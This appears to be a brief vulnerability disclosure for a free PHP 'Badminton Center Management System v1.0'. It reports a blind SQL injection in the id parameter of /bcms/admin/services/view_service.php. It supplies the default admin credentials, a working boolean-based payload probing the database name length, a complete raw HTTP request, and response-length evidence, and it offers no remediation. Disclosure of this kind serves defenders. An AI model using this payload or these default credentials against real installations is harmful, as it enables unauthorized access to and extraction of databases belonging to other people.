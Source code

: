 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File:  /bcms/admin/services/view_service.php?id=

Vulnerability location:  /bcms/admin/services/view_service.php?id=,id

[+] Payload: /bcms/admin/services/view_service.php?id=2%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /bcms/admin/services/view_service.php?id=2%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 847
![image](https://user-images.githubusercontent.com/54017627/170621625-f9590ec9-68eb-4e17-85f6-36b4b428d341.png)

![image](https://user-images.githubusercontent.com/54017627/170621441-73e23d56-3fbd-4063-a77d-861cfbb106d2.png)

When length (database ()) = 7, Content-Length: 748
![image](https://user-images.githubusercontent.com/54017627/170621603-5c0c6a1b-df9b-47f6-a69c-6d1ca518717d.png)

![image](https://user-images.githubusercontent.com/54017627/170621422-68acf8ed-fd54-40cf-9dbe-3f1ce2c52377.png)
